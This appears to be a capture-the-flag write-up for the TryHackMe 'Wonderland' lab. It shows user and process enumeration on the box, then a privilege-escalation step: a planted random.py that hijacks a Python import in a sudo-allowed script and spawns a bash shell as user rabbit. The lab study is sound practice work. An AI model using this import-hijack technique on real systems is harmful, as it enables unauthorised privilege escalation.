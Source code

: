 HowDothTheLittleCrocodileImproveHisShiningTail
## DISCOVERY 
### REGARDING THE USERS & OTHER

```bash
alice@wonderland:/$ ls -la /home

drwxr-xr-x  6 root      root      4096 May 25  2020 .
drwxr-xr-x 23 root      root      4096 May 25  2020 ..
drwxr-xr-x  5 alice     alice     4096 Jun 24 13:31 alice
drwxr-x---  3 hatter    hatter    4096 May 25  2020 hatter
drwxr-x---  2 rabbit    rabbit    4096 May 25  2020 rabbit
drwxr-x---  6 tryhackme tryhackme 4096 May 25  2020 tryhackme
```

```bash
alice@wonderland:/$ find / -user hatter 2>/dev/null
/home/hatter
alice@wonderland:/$ find / -user rabbit 2>/dev/null
/home/rabbit
alice@wonderland:/$ find / -user tryhackme 2>/dev/null
/home/tryhackme
/proc/695  # a multithreaded application i think this is the server
```

```bash
alice@wonderland:/$ find / -group  hatter 2>/dev/null
/home/hatter
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
alice@wonderland:/$ find / -group rabbit  2>/dev/null
/home/rabbit
alice@wonderland:/$ find / -group tryhackme  2>/dev/null
/home/tryhackme
/proc/695

```

### /PROC

SPECIFICALLY the server process 

```bash
alice@wonderland:/proc/695$ cat cmdline 
/home/tryhackme/server-p80
```

### PSPY64

```bash
2024/06/24 14:10:52 CMD: UID=1000  PID=695    | /home/tryhackme/server -p 80 
```


## AFTER A LONG TIME OF * AROUND

```
alice@wonderland:/proc/721/attr$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Done, simply write a random.py in the same directory since walrus imports it, and thus we are now [[rabbit]].

random.py
```python
import pty
pty.spawn('/bin/bash')
```